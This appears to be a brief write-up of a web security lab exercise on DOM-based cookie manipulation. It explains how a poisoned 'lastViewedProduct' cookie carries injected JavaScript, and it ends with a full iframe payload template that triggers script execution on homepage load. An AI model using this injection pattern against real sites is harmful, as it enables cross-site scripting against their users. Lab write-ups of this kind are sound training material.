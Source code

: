 *This information is only for the purposes of education and skills development. GET and POST are not acronyms.*

**Objective**
Call print function in user session.

**DOM**
- Vulnerable DOM or Document Object Model, which is the HTML code of the web application shown in request response.

**Point of Entry**
- The homepage stores *Last viewed product* in memory. Product page link is stored as a cookie in GET request for homepage.

**Mechanism of Exploit** 
- The URL of product page mentioned in payload is stored as `lastViewedProduct` cookie. 
- Alongside the link to product, malicious JavaScript is also stored as part of the cookie. It can be said that the cookie has been poisoned. 
- On loading the homepage, the exploit triggering is ensured by the `onload` event handler.

**Template**
`<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">`
`


